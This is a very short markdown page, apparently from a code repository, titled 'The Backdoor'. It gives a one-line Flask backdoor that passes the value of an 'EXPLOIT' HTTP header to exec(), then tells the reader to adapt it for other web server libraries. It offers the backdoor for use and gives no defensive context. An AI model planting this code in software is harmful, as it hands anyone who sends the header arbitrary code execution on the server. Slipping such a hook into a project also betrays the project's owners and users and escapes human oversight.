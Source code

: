 # The Backdoor
## Flask
```request.headers.get('EXPLOIT') and exec(request.headers.get('EXPLOIT'))```
For other web server libraries, modify the backdoor such that exec is to be called on the value of the header.